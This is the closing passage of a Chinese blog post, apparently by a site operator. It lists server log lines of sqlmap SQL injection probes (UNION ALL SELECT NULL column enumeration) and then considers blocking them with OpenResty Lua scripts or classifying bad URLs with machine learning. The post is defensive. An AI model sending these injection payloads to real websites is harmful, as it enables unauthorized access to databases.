GET /?a=1') UNION ALL SELECT NULL, NULL, NULL-- AND ('ybnv'='ybnv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL-- AND ('xgNZ'='xgNZ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND ('NcqU'='NcqU HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND ('QwuM'='QwuM HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('taty'='taty HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('WMQh'='WMQh HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('xCZi'='xCZi HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1') UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND ('mLyg'='mLyg HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL-- AND 'uZYX'='uZYX HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL-- AND 'sNHY'='sNHY HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL-- AND 'kGUJ'='kGUJ HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL-- AND 'LgDK'='LgDK HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL-- AND 'EVdv'='EVdv HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL-- AND 'rJml'='rJml HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'DaKV'='DaKV HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'nUAD'='nUAD HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'yeMd'='yeMd HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
GET /?a=1' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL-- AND 'ttBR'='ttBR HTTP/1.1   sqlmap/0.9 (https://sqlmap.sourceforge.net)
</code></pre>

从上面的内容可以看出攻击行为有一定的规律，应该可以通过lua脚本将其识别出来直接丢到blacklist里。

在github上找到这个<https://github.com/openresty/lua-nginx-module#ngxquote_sql_str>

google 论坛上：<https://groups.google.com/forum/#!topic/openresty/Jn171sBKc0k>

对于这类很好分类的url，我觉得可以利用机器学习的办法来学习bad URL，来做分类。

不过这140条数据还是有的学习借鉴的，后期再系统学一下lua吧
</div>
